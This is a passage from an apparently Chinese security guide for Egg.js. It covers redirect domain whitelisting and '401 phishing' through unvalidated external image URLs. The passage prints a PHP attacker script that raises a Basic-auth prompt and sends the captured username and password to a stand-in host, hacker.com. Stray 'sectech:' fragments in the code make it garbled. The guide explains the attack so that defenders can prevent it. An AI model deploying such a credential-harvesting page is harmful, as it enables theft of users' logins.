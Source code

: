 <tr>

<td class="code">

<pre>// config/config.default.js  
exports.security = {  
  domainWhiteList:['.domain.com'],  // 安全白名单，以 . 开头  
};</pre>

</td>

</tr>

</tbody>

</table>

</figure>

若用户没有配置 `domainWhiteList` 或者 `domainWhiteList`数组内为空，则默认会对所有跳转请求放行，即等同于`ctx.unsafeRedirect(url)`

###  图片钓鱼

如果可以允许用户向网页里插入未经验证的外链图片，这有可能出现钓鱼风险。

比如常见的 `401钓鱼`, 攻击者在访问页面时，页面弹出验证页面让用户输入帐号及密码，当用户输入之后，帐号及密码就存储到了黑客的服务器中。 通常这种情况会出现在`<img src=$url />`中，系统不对`$url`是否在域名白名单内进行校验。

攻击者可以在自己的服务器中构造以下代码：

401.php：作用为弹出 401 窗口，并且记录用户信息。

<figure class="highlight php">

<table>

<tbody>

<tr>

<td class="code">

<pre><?php  
    header('WWW-Authenticate: Basic realm="No authorization"');  
    header('HTTP/1.1 401 Unauthorized');  
        $domain = "http://hacker.com/fishing/";  
        if ($_SERVER[sectech:'PHP_AUTH_USER'] !== null){  
                header("Location: ".$domain."record.php?a=".$_SERVER[sectech:'PHP_AUTH_USER']."&b=".$_SERVER[sectech:'PHP_AUTH_PW']);  
        }  
?></pre>

</td>

</tr>

</tbody>

</table>

</figure>
